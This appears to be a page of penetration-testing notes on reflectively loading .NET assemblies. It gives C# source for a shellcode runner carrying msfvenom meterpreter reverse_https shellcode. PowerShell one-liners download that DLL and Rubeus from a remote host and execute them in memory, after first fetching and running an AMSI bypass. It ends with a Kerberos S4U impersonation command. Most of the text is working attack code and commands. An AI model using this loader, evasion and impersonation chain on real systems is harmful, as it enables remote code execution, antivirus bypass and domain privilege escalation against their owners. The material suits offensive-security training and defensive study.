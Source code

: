 First, we must create a malicious DLL from VisualStudio. To do so, we will create select the project type as "Class Library(.NET Framework)" obiously in C#. Here are the contents of the DLL:

```
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using Syste.Runtime.InteropServices;

namespace ClassLibrary1
{

  public class Class1
  {
      [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
      static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

      [DllImport("kernel32.dll")]
      static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

      [DllImport("kernel32.dll")]
      static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

      public static void Runner()
      {
        //msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.1 LPORT=443 enablestageencoding=true handlersslcert=justice.pem prependmigrate=true -f csharp
        byte[] buf = new byte[626] { 0xfc,0x48,0x83,0xe4,0xf0,0xe8...

        int size = buf.Length;

        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

        Marshal.Copy(buf, 0, addr, size);

        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

        WaitForSingleObject(hThread, 0xFFFFFFFF);
      }

  }

}
```
(note that we create the runner method with the prefixes public, static and void. Since the runner method must be available through reflection)

Then to invoke it through reflection with Powershell use the following commands:

```
PS C:\> $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.1.1/ClassLibrary1.dll')

PS C:\> $assem = [System.Reflection.Assembly]::Load($data)

PS C:\> $class = $assem.GetType("ClassLibrary1.Class1")

PS C:\> $method = $class.GetMethod("runner")

PS C:\> $method.Invoke(0, $null)
```

**EXAMPLE: Invoke Rubeus through refleciton:**

(We can do it because the Main method is public and we can call all the functions by specifying their names):

PowerShell commands:

```
PS C:\> (New-Object System.Net.WebClient).DownloadString('http://192.168.1.1/amsi.txt') | IEX  -> first bypass AMSI, amsi bypass used [here](https://github.com/trike33/PEN-300-Code-Snippets/blob/main/AMSI%20Bypasses/PowerShell/AmsiContext.ps1)

PS C:\> $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.1.1/Rubeus.exe')

PS C:\> $assem = [System.Reflection.Assembly]::Load($data)

PS C:\> [Rubeus.Program]::Main("purge".Split())
[Rubeus.Program]::Main("purge".Split())
______ _
(_____ \ | |
_____) )_ _| |__ _____ _ _ ___
| __ /| | | | _ \| ___ | | | |/___)
| | \ \| |_| | |_) ) ____| |_| |___ |
|_| |_|____/|____/|_____)____/(___/
v1.5.0
[*] Action: Purge Tickets
Luid: 0x0
[+] Tickets successfully purged!

PS C:\> [Rubeus.Program]::Main("s4u /user:web01$ /rc4:<ntlm_hash> /impersonateuser:administrator /msdsspn:<spn> /ptt".Split())  -> Example of calling Rubeus with arguments thourgh reflection
```

Alternatively we can use this script to reflecitvely load an x64 base64 PE(Portable Executable): https://github.com/Arno0x/CSharpScripts/blob/master/peloader.cs 
